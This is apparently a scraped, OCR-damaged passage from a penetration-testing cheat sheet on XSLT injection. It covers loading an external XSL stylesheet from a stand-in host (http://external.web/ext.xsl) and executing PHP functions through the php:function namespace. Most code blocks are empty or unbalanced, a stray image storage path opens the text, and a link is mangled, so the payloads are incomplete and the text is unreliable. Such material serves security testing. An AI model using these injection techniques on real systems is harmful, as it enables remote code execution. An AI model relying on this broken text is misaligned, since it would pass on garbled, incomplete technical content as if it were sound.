 ```
## Include external XSL

```xml

```
```
```xml
<?xml version="1.0" ?>
<?xml-stylesheet type="text/xsl" href="http://external.web/ext.xsl"?>
```
```
## Execute code

### **php:function**

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:php="http://php.net/xsl" >
<xsl:template match="/">

</xsl:template>
</xsl:stylesheet>
```
```
```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">

  

</body>
</html>
```
```
Execute code using other frameworks in the PDF

### **More Languages**

**In this page you can find examples of RCE in other languajes:** [[https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt_injection#C%23%2FVB.NET%2FASP.NET) **(C#, Java, PHP|**https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt_injection#C%23%2FVB.NET%2FASP.NET**]]**

## **Access PHP static functions from classes**

The following function will call the static method `stringToUrl` of the class XSL:

```xml

<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl"
version="1.0">

<xsl:template match="root">
<html>



</html>
</xsl:template>
</xsl:stylesheet>
```
```
```